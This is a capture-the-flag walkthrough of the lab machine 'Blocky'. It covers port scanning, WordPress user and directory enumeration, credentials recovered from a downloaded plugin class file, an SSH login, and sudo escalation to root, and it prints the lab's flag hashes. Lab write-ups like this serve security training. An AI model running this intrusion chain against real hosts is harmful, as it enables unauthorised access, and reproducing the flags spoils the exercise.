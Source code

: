 ```yaml
---
cover: ../../../../.gitbook/assets/Blocky.png
coverY: 249.05599999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blocky

```bash
nmap -sV -sC -p21,22,80,8192 blocky.htb
```

```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
curl -s -X GET http://blocky.htb | grep '<meta name="generator"'
```

The WordPress version is 4.8.

There is no plugin but there are themes :

```bash
curl -s -X GET http://blocky.htb | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```

```
http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
http://blocky.htb/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/html5.js?ver=3.7.3
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/skip-link-focus-fix.js?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/global.js?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/jquery.scrollTo.js?ver=2.1.2
```

Find users :

```bash
wpscan --url http://blocky.htb --enumerate u
```

The user is `notch`.

I can enumerate the url http://blocky.htb.

```bash
ffuf -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://blocky.htb/FUZZ -fs 52227
```

The results are `wiki`, `wp-content`, `plugins`, `wp-includes`, `javascript`, `wp-admin`, `phpmyadmin`. I go to http://block.htb/plugins and download the files. I extract them and go to `./com/myfirstplugin/BlockyCode.class` and there are some credentials `root:8YsqfCTnvxAUeduzjNSXe22`.

I try these credentials on SSH

```bash
ssh notch@blocky.htb		# notch:8YsqfCTnvxAUeduzjNSXe22
```

I get the shell, now I can check sudo permissions :

```bash
cat /home/notch/user.txt  # c1a886acf96ca6b5590840ba2e948997
sudo -l
```

I can do everything as sudo thus I execute this command :

```bash
sudo -su
```

And I am root now.

```bash
cat /root/root.txt  # 66a208ec92cfb09e9a5108fd0e7f8a01
```
